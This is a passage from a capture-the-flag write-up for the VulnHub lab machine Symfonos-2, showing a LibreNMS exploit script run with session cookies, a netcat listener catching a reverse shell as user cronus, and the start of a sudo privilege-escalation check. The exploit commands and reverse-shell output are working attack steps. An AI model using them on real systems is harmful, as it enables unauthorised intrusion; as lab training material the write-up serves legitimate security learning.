 6. Exploit

	```
	[!] Usage : ./exploit.py http://www.example.com cookies rhost rport
	
	┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/exploit]
	└─# python 47044.py http://localhost:8888 "XSRF-Token=eyJpdiI6InVYMkhsU3FqQ09NZ2xCeFd4N3RuTEE9PSIsInZhbHVlIjoiS2pmejIzc3lBOVhWallPZlpYQ1J6MzI5YUptQ1pQWFpaWndCdUZDOUV1R0h6bVoyaGZsZnh3RmFVNlZcL25rZ1hYaVQwY01obkg0YUtPTG9MKzRqZVN3PT0iLCJtYWMiOiI0NzVmYmFjNjBhZjI4NDM5YWNiMzY3MTA4ZjE1YzhlNWQxMzY0ODcyMWIwNDkxNmFmZmZiZjg0ODM1MzJlMTA4In0%3D; librenms_session=eyJpdiI6IjV4N1RUR1wveVBBUjliNlRnQWsxdElBPT0iLCJ2YWx1ZSI6ImNWRkN3VnBEbG16eE92bTU1aVBoVEFhQnBnMm5QamEyWWJ3YVV3MzZIY0VOMGxJR3BGN0tVMno0SVVkMmJQaGxPalJNaHJXQU5PK2dhQ0Z4RkxabEJRPT0iLCJtYWMiOiIwOGE1NDQ1MTY3YjJlMGVmZTg5NzZkYWNjYzE1OGZmYmRjMTRlZDU4YTE2MmU5NTNlMjljM2I2MzNjN2RiM2E0In0%3D; PHPSESSID=9e807k9im9sjtqtp5408c58qj4" 192.168.236.4 4444
	[+] Device Created Sucssfully

	┌──(root💀kali)-[~/vulnHub/Symfonos-2]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 192.168.236.7.
	Ncat: Connection from 192.168.236.7:46838.
	/bin/sh: 0: can't access tty; job control turned off
	$ whoami; id
	cronus
	uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
	```

	![](images/Pasted%20image%2020220124020916.png)

	

## Root - Via Sudo GTFO Bin

1. Check sudo access

	```
	cronus@symfonos2:/opt/librenms/html$ sudo -l
	Matching Defaults entries for cronus on symfonos2:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
